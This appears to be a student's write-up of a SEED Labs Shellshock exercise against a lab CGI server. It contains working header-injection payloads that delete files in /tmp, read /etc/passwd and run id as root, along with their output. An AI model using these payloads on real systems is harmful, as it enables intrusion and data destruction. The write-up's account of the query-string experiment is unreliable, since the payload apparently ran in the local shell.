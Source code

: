 **Ans:** Below is the commands I used:
```console
root@adb5168e1e79:/# curl -H "remove: () { echo vulnerable; }; echo Content_type: text/plain; echo; /bin/find /tmp -type f -delete" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
root@adb5168e1e79:/# ls -l /tmp
total 0
```

#### Questions.

Please answer the following questions:
- Question 1: Will you be able to steal the content of the shadow file <code>/etc/shadow</code> from the server? Why or why not?
- Question 2: HTTP GET requests typically attach data in the URL, after the <code>?</code> mark. This could be another approach that we can use to launch the attack. In the following example, we attach some data in the URL, and we found that the data are used to set an environment variable:
    ```console
    $ curl "http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?AAAAA"
    ...
    QUERY_STRING=AAAAA
    ...
    ```
    Can we use this method to launch the Shellshock attack? Please conduct your experiment and derive your conclusions based on your experiment results.

**Ans:** For Question 1, we cannot "<code>/bin/cat</code>" the shadow directory because we are not accessing it as a root or super user. For Question 2, I chose to use the <code>env</code> command to pass a query string to a variable that will be placed after the question mark:
```console
root@adb5168e1e79:/# env x='() { echo vulnerable; }; echo Content_type: text/plain; echo; /bin/cat /etc/passwd' bash_shellshock -c "curl 'http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?$x'"
Content_type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
Segmentation fault (core dumped)
root@adb5168e1e79:/# env x='() { echo vulnerable; }; /bin/id' bash_shellshock -c "curl 'http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?$x'"
uid=0(root) gid=0(root) groups=0(root)
Segmentation fault (core dumped)
root@adb5168e1e79:/# env x='() { echo vulnerable; }; /bin/touch /tmp/task3;' bash_shellshock -c "curl 'http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?$x'"
Segmentation fault (core dumped)
root@adb5168e1e79:/# ls -l /tmp
total 0
-rw-r--r-- 1 root root 0 Oct 30 00:33 task3
root@adb5168e1e79:/# env x='() { echo vulnerable; }; /bin/find /tmp -type f -delete' bash_shellshock -c "curl 'http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?$x'"
```